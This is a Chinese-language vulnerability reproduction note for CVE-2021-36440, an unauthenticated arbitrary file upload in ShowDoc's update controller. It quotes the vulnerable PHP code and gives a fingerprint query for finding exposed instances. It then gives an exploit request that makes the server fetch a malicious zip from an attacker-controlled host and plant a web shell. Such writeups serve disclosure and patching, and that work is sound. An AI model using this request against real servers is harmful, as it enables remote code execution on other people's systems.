 # ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

## 漏洞描述

ShowDoc AdminUpdateController.class.php 文件中的更新部分代码没有鉴权且存在任意文件上传漏洞

## 漏洞影响

```
ShowDoc < V2.9.5
```

## 网络测绘

```
app="ShowDoc"
```

## 漏洞复现

登录页面

![image-20220524153008064](./images/202205241530123.png)

文件路径`server/Application/Api/Controller/AdminUpdateController.class.php`

![](./images/202205241530546.png)

```
public function download(){
        set_time_limit(1000);
        ini_set('memory_limit','500M');
        $new_version = I("new_version") ;
        $file_url = I("file_url") ;
        $version_num = str_replace("v","",$new_version) ;

        $showdoc_path = "../" ;

        // 进行文件读写权限检查
        if(!$this->new_is_writeable($showdoc_path)
            || !$this->new_is_writeable($showdoc_path."Sqlite/" )
            || !$this->new_is_writeable($showdoc_path."web/" )
            || !$this->new_is_writeable($showdoc_path."web/index.php" )
            || !$this->new_is_writeable($showdoc_path."server/" )
            || !$this->new_is_writeable($showdoc_path."server/vendor/autoload.php" )
            || !$this->new_is_writeable($showdoc_path."server/Application/Api" )
        ){
            $this->sendError(10101,'请手动给showdoc安装目录下的所有文件可写权限，否则程序无法覆盖旧文件');
            return ;
        }

        $temp_dir = sys_get_temp_dir()."/showdoc_update/";
        $zip_file = $temp_dir.'showdoc-'.$version_num.'.zip' ;
        mkdir($temp_dir) ;
        unlink($zip_file);
        $file = file_get_contents($file_url);
        file_put_contents($zip_file,$file);
        
        $zip = new \ZipArchive();
        $flag = $zip->open($zip_file);
        if($flag!==true){
            $this->sendError(10101,'下载更新压缩包失败');
            return ;
        }
        $zip->extractTo($temp_dir);
        $flag = $zip->close();
        
        $zip_file_subpath = $temp_dir.'showdoc-'.$version_num."/" ;
        
        if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
            //echo $zip_file_subpath.'存在';
            // 移动目录到upload/update
            $this->copydir($zip_file_subpath ,$showdoc_path.'Public/Uploads/update/' );
            $this->deldir($temp_dir);
            $this->sendResult(array());
        
        }else{
            $this->sendError(10101,'下载更新压缩包后，解压的文件缺失');
            return ;
        }
    }
```

这里可以看到 $file_url 参数可控，可在任意URl下载 zip文件，向后看看ZIP要求为需要存在部分文件

```
if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
```

制作ZIP包，index.php 为恶意文件

![image-20220524153052669](./images/202205241530708.png)

发送请求包

```
POST /server/index.php?s=/api/adminUpdate/download
  
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2
```

![](./images/202205241531609.png)

访问上传的文件页面 `Public/Uploads/update/web/index.php`